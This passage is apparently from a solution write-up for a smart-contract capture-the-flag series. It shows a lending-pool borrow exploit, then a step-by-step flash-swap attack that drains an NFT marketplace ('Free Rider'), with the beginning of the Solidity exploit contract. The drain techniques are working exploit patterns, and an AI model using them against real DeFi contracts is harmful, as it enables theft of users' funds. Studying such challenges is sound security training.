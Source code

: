 ```javascript
        const collateral = await this.lendingPool.calculateDepositOfWETHRequired(
            POOL_INITIAL_TOKEN_BALANCE
        )
        await this.weth.connect(attacker).deposit({ value: collateral })
        await this.weth.connect(attacker).approve(this.lendingPool.address, collateral)
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE)
    });
```

## 10. Free Rider

This is a complex exploit. The steps are:

1. Trigger the flash swap
2. Implement the `uniswapV2Call` callback called by Uniswap where we will receive the loan
3. Buy 2 NFTs for 15 ETH each
4. Put them back on sale for 90 ETH each
5. Buy them for only 90 ETH. The other 90 ETH will be drained by the marketplace's onw balance
6. Buy the other 4 NFTs for 60 ETH
7. Send all 6 NFTs to the buyer's contract
8. Transfer the ETH back to Uniswap with fee
9. Transfer the spoils to the attackers EOA

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IUniswapV2Pair {
    function swap(
        uint256 amount0Out,
        uint256 amount1Out,
        address to,
        bytes calldata data
    ) external;
}

interface IUniswapV2Callee {
    function uniswapV2Call(
        address sender,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) external;
}

interface IFreeRiderNFTMarketplace {
    function offerMany(uint256[] calldata tokenIds, uint256[] calldata prices)
        external;

    function buyMany(uint256[] calldata tokenIds) external payable;

    function token() external returns (IERC721);
}

interface IWETH {
    function transfer(address recipient, uint256 amount)
        external
        returns (bool);

    function deposit() external payable;

    function withdraw(uint256 amount) external;
```